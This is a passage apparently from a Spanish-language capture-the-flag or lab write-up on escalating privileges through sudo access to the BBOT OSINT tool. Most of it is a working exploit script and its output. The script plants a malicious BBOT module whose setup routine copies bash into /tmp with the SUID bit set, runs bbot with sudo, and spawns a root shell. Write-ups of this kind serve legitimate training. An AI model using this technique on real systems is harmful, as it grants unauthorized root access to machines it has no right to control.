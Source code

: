 ```bash

class whois2(BaseModule):
    watched_events = ["DNS_NAME"] # watch for DNS_NAME events
    produced_events = ["WHOIS"] # we produce WHOIS events
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""} # module config options
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True # only run once per domain

    # one-time setup - runs at the beginning of the scan
    async def setup(self):
        os.system("cp /bin/bash /tmp/gzzcoo && chmod u+s /tmp/gzzcoo")
        self.api_key = self.config.get("api_key")
        return True

    async def handle_event(self, event):
        pass
EOF

# Paso 4: Ejecutar BBOT para crear SUID bash
echo "Ejecutando módulo BBOT malicioso..."
sudo /usr/local/bin/bbot -p /tmp/myconf.yml -m whois2

# Paso 5: Comprobar que el SUID bash se ha creado correctamente y hacer uso de este
if [ -u /tmp/gzzcoo ]; then
    echo -e "\n[+] ¡SUID bash creado exitosamente!"
    echo -e "[*] Spawning root shell...\n"
    /tmp/gzzcoo -p
else
    echo -e "\n[-] Explotación fallida: no se creó el SUID bash"
    exit 1
fi

# Cleanup (optional)
# rm /tmp/gzzcoo /tmp/myconf.yml /tmp/modules/whois2.pye
```
{% endcode %}

Le daremos los permisos de ejecución necesarios a nuestro script y lo ejecutaremos. Cuando nos muestre el mensaje de `Scan ready`, finalmente obtendremos una `bash` como el usuario `root`.

{% hint style="danger" %}
Press ENTER to execute root shell
{% endhint %}

```bash
user@gzzcoo:/tmp$ chmod +x exploit.sh
user@gzzcoo:/tmp$ ./exploit.sh 
Creating malicious BBOT config...
Creating modules directory...
Creating malicious whois2 module...
Executing malicious BBOT module...
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 0 targets (0 in whitelist)
```